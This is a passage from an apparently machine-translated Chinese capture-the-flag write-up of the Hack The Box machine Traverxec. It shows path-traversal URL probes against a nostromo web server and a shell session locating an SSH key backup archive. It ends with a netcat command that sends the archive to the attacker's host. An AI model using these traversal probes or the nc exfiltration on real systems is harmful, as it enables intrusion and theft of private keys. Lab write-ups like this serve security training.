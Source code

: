 因此，指向主目录，然后在用户目录中，web 根将是 。所以将是.`/homedirs /home``nostromo``public_www``http://10.10.10.165/~david``/home/david/public_www`

我的第一个想法是通过浏览器访问它：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20191122134727465.png) 

我甚至可以使用遍历漏洞在david的主目录中进行探索。尝试了一堆东西：

网址

结果

笔记

`http://10.10.10.165/~david/.%0d./`

空页

可能存在，没有读取权限

`http://10.10.10.165/~david/.%0D./.ssh/`

空

可能存在，没有读取权限

`http://10.10.10.165/~david/.%0D./0xdf/`

404 未找到

不存在（如预期）

`http://10.10.10.165/~david/.%0D./user.txt`

403 禁止访问

存在，但没有读取权限

`http://10.10.10.165/~david/index.html`

上图

我有权阅读此目录

最后一次测试是我想到w数据必须能够在此目录中读取的地方，。所以我回到了我的shell，我不仅可以进入目录，而且那里有一个文件夹：`/home/david/public_www`

    www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
    www-data@traverxec:/home/david/public_www$ ls            
    index.html  protected-file-area 
    

在里面，有备份密钥：

    www-data@traverxec:/home/david/public_www$ cd protected-file-area/
    www-data@traverxec:/home/david/public_www/protected-file-area$ ls
    backup-ssh-identity-files.tgz   
    

我会把它寄回我的盒子。通过听我的主机，我会把它发回去：`nc``nc`

    www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.6 443  
    